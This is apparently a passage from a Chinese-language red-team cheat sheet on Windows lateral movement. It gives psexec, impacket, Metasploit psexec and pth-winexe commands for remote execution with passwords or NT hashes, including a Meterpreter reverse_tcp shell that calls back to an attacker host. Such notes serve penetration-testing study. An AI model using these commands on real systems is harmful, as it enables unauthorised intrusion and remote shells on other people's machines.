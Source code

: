     ```
    psexec \\ip -u user -p passwd cmd /c dir D:\
    ```

- [impacket](https://github.com/SecureAuthCorp/impacket)
    ```bash
    git clone https://github.com/CoreSecurity/impacket.git
    cd impacket/
    python setup.py install
    cd impacket/examples
    ```
    - Psexec.py

        Psexec.py 允许你在远程 Windows 系统上执行进程，复制文件，并返回处理输出结果。此外，它还允许你直接使用完整的交互式控制台执行远程 shell 命令（不需要安装任何客户端软件）。
        ```
        ./psexec.py test/Administrator:Abcd1234@192.168.1.100
        ```

    - Wmiexec.py

        它会生成一个使用 Windows Management Instrumentation 的半交互式 shell，并以管理员身份运行。你不需要在目标服务器
        ```
        ./wmiexec.py test/Administrator:Abcd1234@192.168.1.100
        ```

    - Atexec.py

        通过 Task Scheduler 服务在目标系统上执行命令，并返回输出结果。
        ```
        ./atexec.py test/Administrator:Abcd1234@192.168.1.100 whoami
        ```

- metasploit

    目标主机的 Vista 之后的机器，所以只能使用 administrator 用户进行攻击。
    ```bash
    use exploit/windows/smb/psexec # 或 use exploit/windows/smb/psexec_psh
    set rhosts [ip]
    set smbuser [user]          # 域中的 PTH 这里不需要写域前缀
    set smbpass [password]      # 例如: 00000000000000000000000000000000:c780c78872a102256e946b3ad238f661

    set payload windows/meterpreter/reverse_tcp
    set lhost [ip]

    # 工具的参数需要填写固定格式 LM hash:NT hash，可以将 LM hash 填 0(LM hash 可以为任意值)，即 00000000000000000000000000000000:NT hash。
    exploit
    ```

- pth-winexe

    kali 自带的 PTH 套件每个工具都针对 WIN 下相应的 EXE 文件,如使用 Pth-winexe 可以借助哈希执行程序得到一个 cmdshell:
    ```bash
    export SMBHASH=xxxxxx...:xxxx...
    pth-winexe -U administrator% //target-ip cmd
    # no password 就需要替换成空的 LM hash 加密值: aad3b435b51404eeaad3b435b51404ee
    ```
